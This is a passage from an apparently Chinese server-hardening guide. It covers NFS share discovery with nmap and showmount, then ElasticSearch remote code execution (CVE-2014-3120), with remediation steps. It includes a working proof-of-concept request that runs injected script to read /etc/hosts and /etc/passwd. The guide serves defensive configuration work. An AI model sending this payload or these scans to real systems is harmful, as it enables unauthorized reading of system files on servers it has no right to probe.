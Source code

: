 **6、漏洞扫描与发现**

---
nmap扫描TCP 2049端口，然后试用showmount -e ip进行权限查看

	nmap -Pn -p2049 -sV --open ip
	showmount -e ip

**7、相关资源**

---
[网络文件系统](https://www.freebsd.org/doc/zh_CN.UTF-8/books/handbook/network-nfs.html)

[NFS配置与安装](http://phantom.iteye.com/blog/66673)

[Linux NFS服务器的安装与配置](http://www.cnblogs.com/mchina/archive/2013/01/03/2840040.html)

[NFS服务配置](http://www.92csz.com/study/linux/19.htm)

##ElasticSearch安全配置

**1、ElasticSearch简介**

---
ElasticSearch是JAVA开发的一个基于Lucene的搜索服务器，它提供了一个分布式多用户能力的全文搜索引擎。

很多小伙伴用ElasticSearch配合其它工具进行日志分析平台的搭建，但是ElasticSearch不同版本存在多个漏洞。

**2、ElasticSearch漏洞**

---
***2.1 ElasticSearch远程命令执行(CVE-2014-3120)***

漏洞介绍：

ElasticSearch有脚本执行(scripting)的功能，可以很方便地对查询出来的数据再加工处理。ElasticSearch用的脚本引擎是MVEL，这个引擎没有做任何的防护，或者沙盒包装，所以直接可以执行任意代码。

而在ElasticSearch 1.2之前的版本中，默认配置是打开动态脚本功能的，如果用户没有更改默认配置文件，攻击者可以直接通过http请求执行任意代码。

测试POC：

	http://127.0.0.1:9200/_search?source=%7B%22size%22%3A1%2C%22query%22%3A%7B%22filtered%22%3A%7B%22query%22%3A%7B%22match_all%22%3A%7B%7D%7D%7D%7D%2C%22script_fields%22%3A%7B%22%2Fetc%2Fhosts%22%3A%7B%22script%22%3A%22import%20java.util.*%3B%5Cnimport%20java.io.*%3B%5Cnnew%20Scanner(new%20File(%5C%22%2Fetc%2Fhosts%5C%22)).useDelimiter(%5C%22%5C%5C%5C%5CZ%5C%22).next()%3B%22%7D%2C%22%2Fetc%2Fpasswd%22%3A%7B%22script%22%3A%22import%20java.util.*%3B%5Cnimport%20java.io.*%3B%5Cnnew%20Scanner(new%20File(%5C%22%2Fetc%2Fpasswd%5C%22)).useDelimiter(%5C%22%5C%5C%5C%5CZ%5C%22).next()%3B%22%7D%7D%7D&callback=jQuery111107529820275958627_1400564696673&_=1400564696674
修复方法：

	1，升级ElasticSearch为最新版本；
	
	2，在配置文件elasticsearch.yml里为每一个节点都加上：script.disable_dynamic: true。

漏洞案例：

[果壳网某服务远程命令执行漏洞(非st2)](http://wooyun.org/bugs/wooyun-2014-061672)

***2.2 Elasticsearch Groovy命令执行漏洞(CVE-2015-1427)***
